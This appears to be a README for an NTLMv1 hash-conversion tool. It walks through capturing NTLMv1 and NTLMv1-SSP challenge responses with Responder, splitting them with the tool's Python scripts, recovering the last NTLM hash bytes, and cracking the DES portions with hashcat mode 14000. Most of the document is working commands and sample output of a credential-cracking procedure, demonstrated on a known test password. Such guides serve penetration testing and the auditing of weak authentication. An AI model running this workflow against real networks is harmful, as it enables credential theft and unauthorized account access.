 # ntlmv1-multi
NTLMv1 Multitool

This tool modifies NTLMv1/NTLMv1-ESS/MSCHAPv1 hashes so they can be cracked with DES Mode 14000 in hashcat

This tool is based on work done by atom of team Hashcat https://hashcat.net/forum/thread-5832.html

It is also based on https://hashcat.net/forum/thread-5912.html and https://www.youtube.com/watch?v=LIHACAct2vo

# Usage

## NTLMv1 without SSP
To capture use responder with the --lm flag, without --lm you will activate SSP which requires a different tool.

The capture will look like this.
```
[SMB] NTLMv1 Client   : 184.64.60.62
[SMB] NTLMv1 Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1 Hash     : hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
[*] Skipping previously captured hash for DUSTIN-5AA37877\hashcat
```

The hash portion looks like this
```
hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

So use the multi tool like so
```
python ntlmv1.py --nossp hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

It will output the following data without modifing server challenges etc
```
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now the first and most important thing is the password used in this case is hashcat and we can verify the ntlm hash with
```
echo -n hashcat | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= b4b9b02e6f09a9bd760f388b67351e2b
```

With hashcat utils ct3_to_ntlm.bin that atom wrote you can calculate the last 4 characters of the NTLM hash from the NTLMv1 challenge, which the tool outputs
```
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788
568c
```

This matches up to the end of the ntlm hash so we are good to go, the next step is cracking the hashes with hashcat so we need to make a hashes.txt file with
```
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```

To crack this with hashcat you use
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

If you are just testing my code and know the password already you can use the des converter
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Basically you do the following
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```

And you should have some reversed hashes

## NTLMv1 with SSP
SSP changes the server challenge, if you see SSP in your responder because you didn't use --lm or the client is set not to give out a LM response then SSP gets engaged.

The SSP output looks like this
```
[SMB] NTLMv1-SSP Client   : 184.64.60.62
[SMB] NTLMv1-SSP Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1-SSP Hash     : hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The actual hash looks like this
```
hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The hashcat forums post do not use SSP, so don't try to use the SSP on on ssp hashes, you will see a stackload of zero's and thats how you can tell as the LM Response is mangled.

To use the tool run
```
python ntlmv1-ssp.py --ssp "hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788"
```

The tool will output
```
Hashfield Split:
['hashcat', '', 'DUSTIN-5AA37877', '85D5BC2CE95161CD00000000000000000000000000000000', '892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
LM Response: 85D5BC2CE95161CD00000000000000000000000000000000
NT Response: 892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0
Client Challenge: 1122334455667788
SRV Challenge: b36d2b9a8607ea77

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000

To crack with hashcat create a file with the following contents:
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now the password we are using in this case is hashcat which has and ntlm hash of ```b4b9b02e6f09a9bd760f388b67351e2b```
```
echo -n hashcat | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= b4b9b02e6f09a9bd760f388b67351e2b
```

So to calculate the last 4 characters of the ntlm hash for our NTLMv1-SSP chalenge we use the following command from the tool output to get ```586c```
```
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000
```

We must make a hash file with the following content according to the tool which has the modified SRV Challenges to deal with ESS
```
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77
```

To crack with hashcat we use the following according to the tool
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now assuming we already knew what the ntlm hash was in the case because we made it and want to validate the tooling we use the following
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
```

This will output some data for us
```
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

The important part here is
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Now we can crack with hashcat using the following and not waiting 8 days
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```



## NTLM hash to DES Key Converter for data validation testing
```
python ntlm-to-des.py  --ntlm 8846f7eaee8fb117ad06bdd830b7586c
```
```
DESKEY1: b55d6d05e6792652
DESKEY2: bdba82e6895a9d6a

echo b55d6d05e6792652>>des.cand
echo bdba82e6895a9d6a>>des.cand
```
